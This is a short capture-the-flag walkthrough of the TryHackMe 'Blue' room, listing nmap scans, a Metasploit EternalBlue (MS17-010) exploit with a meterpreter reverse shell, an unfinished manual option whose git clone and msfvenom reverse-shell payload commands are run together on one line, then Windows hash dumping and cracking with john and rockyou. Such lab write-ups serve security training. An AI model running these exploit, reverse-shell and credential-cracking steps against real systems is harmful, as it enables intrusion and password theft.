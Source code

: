# Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

`nmap -A 10.10.68.22`

``<img src="../../.gitbook/assets/image (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

`nmap -p135,139,445,3389 --script=vuln 10.10.68.22`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate

#### Option #1 - Metasploit

`msfconsole`&#x20;

`search eternalblue`&#x20;

`use exploit/windows/smb/ms17_010_eternalblue`&#x20;

`set payload windows/x64/meterpreter/reverse_tcp`&#x20;

`set RHOSTS 10.10.68.22`&#x20;

`run`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

#### Option #2 - Manual

Do later

`git clone https://github.com/3ndG4me/AutoBlue-MS17-010 msfvenom -p windows/shell_reverse_tcp -f exe-service lhost=10.10.227.183 lport=443 -o ebevil.exe`

### Cracking

`hashdump`

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

john --format=nt hashes.txt /find/rockyou.txt

